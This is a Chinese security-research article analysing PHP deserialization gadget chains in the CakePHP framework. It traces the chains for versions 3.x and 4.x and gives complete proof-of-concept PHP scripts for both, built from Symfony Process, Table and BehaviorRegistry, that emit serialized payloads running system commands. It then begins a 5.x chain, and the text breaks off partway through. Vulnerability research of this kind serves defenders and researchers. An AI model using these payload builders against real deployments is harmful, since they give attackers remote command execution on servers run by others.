# CakePHP反序列化链：从原理到实战挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/16920  
> **文章ID**: 16920

---

## CakePHP 框架简介



CakePHP 是一个基于 PHP 的开源 Web 应用框架，遵循 MVC（模型 - 视图 - 控制器）设计模式，在 Web 开发领域应用广泛。它的出现，旨在让不同层次的 PHP 开发人员都能快速构建出健壮且不失灵活性的 Web 应用 。

CakePHP 在众多 PHP 框架中特性突出。它数据操作便捷，借助 ORM 开发者无需编写大量 SQL 语句就能完成数据库增删改查，提升开发效率。路由方面支持高度自定义 URL 和灵活路由规则，利于网址结构优化和搜索引擎优化。内置验证机制可有效验证用户输入数据，保障数据准确安全。还提供丰富视图助手工具，助力构建交互性强的前端界面。

## 反序列化基础概念



### 序列化与反序列化

在编程领域，序列化指的是将对象状态转换为可存储或传输格式（如字符串、字节流）的过程。在 PHP 中，主要通过serialize()函数来实现。例如，对于包含用户信息的数组$user = ['name' => '张三', 'age' => 25];，执行serialize($user)处理后，会得到特定格式的字符串，这一字符串便于存储或传输。

反序列化是序列化的逆过程，在 PHP 中使用unserialize()函数。继续上面的例子，使用unserialize('a:2:{s:4:"name";s:6:"张三";s:3:"age";i:25;}') 就能还原出数组$user，方便程序后续操作。

### 反序列化漏洞原理

反序列化漏洞通常源于应用程序对反序列化数据的信任以及缺乏有效的验证机制。当应用接收来自不可信源（例如用户输入、网络请求）的数据并进行反序列化操作时，如果没有进行严格检查，攻击者就有可能构造恶意的序列化数据。

以存在反序列化漏洞的 PHP 应用为例，攻击者可以构造包含恶意代码的序列化字符串。当应用执行unserialize()函数时，会触发对象魔术方法。倘若这些方法中存在可被利用的函数调用，攻击者就能通过控制反序列化数据来执行恶意代码，比如执行系统命令、读取敏感文件等，进而引发严重的安全问题。

## CakePHP 反序列化链分析

### 3.x 版本反序列化链分析

在 CakePHP 3.x 版本（以 3.9.6 及之前版本为例）中，反序列化链入口在vendor/symfony/process/Process.php的\_\_destruct方法，对象销毁时触发。

​



​

\_\_destruct调用stop，stop进入isRunning，



此时$this->status可控，设为"started"能进入updateStatus和readPipes，



$this->processPipes可控且会调用readAndWrite，可调用任意类\_\_call方法。



全局搜索在vendor/cakephp/cakephp/src/ORM/Table.php找到合适\_\_call方法，$this->\_behaviors可控能调用任意类call方法 ，



在vendor/cakephp/cakephp/src/ORM/BehaviorRegistry.php找到关键call方法可调用任意类任意方法，但参数不可控。



分析进入call\_user\_func\_array条件，$method是之前触发\_\_call的readAndWrite方法，跟进hasMethod发现$this->\_methodMap可控可使其返回true，has在父类ObjectRegistry定义，$this->\_loaded可控，可利用回调函数调用任意方法。

最终找到vendor/cakephp/cakephp/src/Shell/ServerShell.php的main方法，



其执行命令由可控参数$this->host、$this->port等拼接，可利用分号命令注入，但 Windows 下没配置好 PHP 环境变量可能无法利用。执行命令前要让两个$this->out方法正常返回，跟进到vendor/cakephp/cakephp/src/Console/ConsoleIo.php，



让$this->level小于 1 即可返回true，从而成功执行系统命令。

下面是一个简单的 POC 示例：

```
<?php
  namespace Cake\Core;
abstract class ObjectRegistry{
  public $_loaded = [];
}
namespace Cake\ORM;
class Table{
  public $_behaviors;
}
use Cake\Core\ObjectRegistry;
class BehaviorRegistry extends ObjectRegistry{
  public $_methodMap = [];
  protected function _resolveClassName($class){}
  protected function _throwMissingClassError($class, $plugin){}
  protected function _create($class, $alias, $config){}
}
namespace Cake\Console;
class Shell{
  public $_io;
}
class ConsoleIo{
  public $_level;
}
namespace Cake\Shell;
use Cake\Console\Shell;
class ServerShell extends Shell{
  public $_host;
  protected $_port = 0;
  protected $_documentRoot = "";
  protected $_iniPath = "";
}
namespace Symfony\Component\Process;
use Cake\ORM\Table;
class Process{
  public $processPipes;
}
$pop = new Process([]);
$pop->status = "started";
$pop->processPipes = new Table();
$pop->processPipes->_behaviors = new \Cake\ORM\BehaviorRegistry();
$pop->processPipes->_behaviors->_methodMap = ["readandwrite"=>["servershell","main"]];
$a = new \Cake\Shell\ServerShell();
$a->io = new \Cake\Console\ConsoleIo();
$a->io->level = 0;
$a->host = ";open /System/Applications/Calculator.app;";
$pop->processPipes->_behaviors->_loaded = ["servershell"=>$a];
echo base64_encode(serialize($pop));
```

### 4.x 版本反序列化链分析

CakePHP 4.x 版本（以 4.2.3 及之前版本为例）在反序列化链方面有一些变化 。前半部分的整体思路和 3.x 版本基本相似，但部分代码有所变动 。在 4.x 版本中，ServerShell类被修改，不再具有像 3.x 版本中那样好用的方法，因此需要寻找新的利用链 。

经过分析，在vendor/cakephp/cakephp/src/Database/Statement/CallbackStatement.php中发现了动态调用点 。



这里方法名可控，参数$row通过$this->statement->fetch($type)获得 。于是进一步寻找可用的fetch方法，在vendor/cakephp/cakephp/src/Database/Statement/BufferedStatement.php中找到了合适的方法 。



在此处，$this->buffer、$this->index、$this->\_allFetched参数均可控，我们可以通过设置这些参数，返回指定的$row值 。这样一来，就能够达成任意方法执行，直接指定system函数即可执行系统命令 。

以下是 4.x 版本的 POC 示例：

```
<?php
  namespace Cake\Core;
abstract class ObjectRegistry{
  public $_loaded = [];
}
namespace Cake\ORM;
class Table{
  public $_behaviors;
}
use Cake\Core\ObjectRegistry;
class BehaviorRegistry extends ObjectRegistry{
  public $_methodMap = [];
  protected function _resolveClassName(string $class):?string{
    return $class;
  }
  protected function _throwMissingClassError(string $class,?string $plugin): void{}
  protected function _create($class, $alias, $config){}
}
namespace Cake\Database\Statement;
class StatementDecorator{
  public $_statement;
}
class CallbackStatement extends StatementDecorator{
  public $_callback;
}
class BufferedStatement{
  public $_allFetched;
  public $buffer = [];
  protected $index = 0;
}
namespace Symfony\Component\Process;
use Cake\ORM\Table;
class Process{
  public $processPipes;
}
$pop = new Process([]);
$pop->status = "started";
$pop->processPipes = new Table();
$pop->processPipes->_behaviors = new \Cake\ORM\BehaviorRegistry();
$pop->processPipes->_behaviors->_methodMap = ["readandwrite"=>["callbackstatement","fetch"]];
$a = new \Cake\Database\Statement\CallbackStatement($statement, $driver,"");
$a->callback = "system";
$a->statement = new \Cake\Database\Statement\BufferedStatement($statement, $driver);
$a->statement->_allFetched = true;
$a->statement->buffer = ["open /System/Applications/Calculator.app"];
$pop->processPipes->_behaviors->_loaded = ["callbackstatement"=>$a];
echo base64_encode(serialize($pop));
```

## 实战挖掘：构造 5.x POC

### 5.x 版本 POC 构造

在 CakePHP 5.1.4 版本中，入口点发生了变化，vendor/symfony/process/Process.php新增了\_\_wakeup方法，方法在反序列化时会执行抛出异常



需要寻找新的入口点，全局搜索\_\_wakeup和\_\_destruct方法，在src/Internal/RejectedPromise.php的\_\_destruct方法$this->reason可以触发\_\_toString()



继续寻找\_\_toString()，在src/Ast/Type/ConstTypeNode.php中发现可以触发\_\_call()

​



\_\_call()使用的还是原来的vendor/cakephp/cakephp/src/ORM/Table.php，接着会调用src/ORM/BehaviorRegistry.php中call方法



这里的call方法与之前3.x中有所不同，这里的$this->\_loaded和$behavior和$callMethod都可控，但是$args为空，所以这里可调用任意类的无参方法

接下来进行寻找，找到了src/Collection/Iterator/MapReduce.php的getIterator方法



可以进入\_execute方法，

